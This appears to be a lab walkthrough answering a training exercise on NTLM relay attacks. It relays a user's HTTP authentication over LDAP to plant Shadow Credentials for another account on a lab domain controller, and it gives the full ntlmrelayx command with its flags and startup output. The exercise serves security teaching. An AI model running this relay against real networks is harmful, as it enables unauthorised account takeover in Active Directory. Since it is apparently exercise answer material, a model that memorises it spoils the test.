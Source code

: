 ## Advanced NTLM Relay Attacks Targeting Kerberos

### Question 3

#### "Relay CJAQ's HTTP NTLM authentication over LDAP to create shadow credentials for JPEREZ. Then, connect to the DC (172.16.117.3) as JPEREZ and submit the file's contents at 'C:\Users\jperez\Desktop\flag.txt'."

Students will reuse `Responder` and perform the `Shadow Credentials` attack, utilizing the previously spawned target, SSH session, and configuration.

Subsequently, students will have to start `ntlmrelayx` in the other SSH session, specifying the target using the `-t` option (including the `DOMAIN\Username`), the `--shadow-credentials` that enables Shadow Credentials relay attack, `--shadow-target` option to target the (user or computer) to populate the `msDS-KeyCredentialLink` attribute, `--no-da` option to not attempt to add a Domain Admin, `--no-dump` option preventing dumping the LDAP information, `--no-acl` to disable ACL attacks.

Code: shell

```shell
sudo ntlmrelayx.py -t ldap://INLANEFREIGHT\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://INLANEFREIGHT\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
<SNIP>
```

After a while, students will realize that the shadow credentials attack was successful and an additional `.pfx` file has been generated in their current working directory.
